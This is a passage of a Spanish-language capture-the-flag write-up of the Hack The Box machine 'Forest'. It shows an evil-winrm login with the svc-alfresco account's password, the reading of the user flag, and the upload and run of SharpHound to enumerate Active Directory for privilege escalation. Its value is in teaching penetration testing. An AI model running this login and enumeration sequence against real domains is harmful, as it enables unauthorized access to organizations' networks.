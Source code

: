 Como se puede observar, el usuario `svc-alfresco` tiene la autorización para el acceso remoto a través de WinRM, por lo que procedemos a iniciar sesión.

```bash
❯ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

Ahora que hemos accedido al sistema, podemos proceder a leer la flag de usuario.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
d5b32f79529355cd****************
```

## Escalación de privilegios

---

### Enumeración con BloodHound

Para avanzar en la exploración del dominio y buscar rutas de escalada de privilegios, el siguiente paso es ejecutar [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) para recopilar datos que luego se utilizarán en [BloodHound](https://github.com/BloodHoundAD/BloodHound). Para hacerlo, debemos cargar el archivo SharpHound.exe utilizando la sesión de Evil-WinRM que ya hemos establecido.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\BloodHound> upload /home/juanr/CTF/HTB/Forest/content/SharpHound.exe .
                                        
Info: Uploading /home/juanr/CTF/HTB/Forest/content/SharpHound.exe to C:\Users\svc-alfresco\Desktop\BloodHound\.
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
```

Lo ejecutamos.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop\BloodHound> .\Sharphound.exe --CollectionMethods All
2023-07-30T16:48:02.7633163-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-07-30T16:48:02.9194639-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-07-30T16:48:02.9507140-07:00|INFORMATION|Initializing SharpHound at 4:48 PM on 7/30/2023
2023-07-30T16:48:03.1382200-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2023-07-30T16:48:03.2633768-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-07-30T16:48:03.6493402-07:00|INFORMATION|Beginning LDAP search for htb.local
2023-07-30T16:48:03.8055489-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-07-30T16:48:03.8055489-07:00|INFORMATION|LDAP channel closed, waiting for consumers
```